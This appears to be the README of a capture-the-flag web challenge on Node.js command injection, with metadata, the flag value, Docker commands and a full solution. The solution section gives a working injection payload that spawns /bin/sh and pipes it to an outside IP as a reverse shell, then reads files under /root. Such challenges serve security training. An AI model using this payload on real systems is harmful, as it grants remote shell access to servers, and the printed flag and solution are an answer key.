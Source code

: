 CSRegex
=========

## Status
* Meta: Done
* Tech: Done

## Description
Node.js command injection

## CTF Description
Stop pwning, start learning REGEX! This is such a fine way to ESCAPE the real world...

## Infos

* Author: molatho
* Ports: 9876
* Category: web
* For Downloading: -
* Flag: CSR{r363x_15_fun_r363x_15_l0v3}
* Points: 100


## Docker
Build (`docker build . -t molatho/csregex:0.1`) and run (`docker run -p80:8080 -d molatho/csregex:0.1`).

## Get Reverse Shell
Enter this payload as "Input":
```
'; 
Promise.all([LEGACY_UTILS.require('net'), LEGACY_UTILS.require('child_process')])
.then(res => {
var sh = res[1].spawn('/bin/sh', []);
var client = new res[0].Socket();
    client.connect(6666, "172.22.73.253", function(){ /* target Port, IP */
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/
});
//
```

## Acquire flag
```
ls -la /root
curl file:///root/flaggerino_flaggeroni.toxt
```
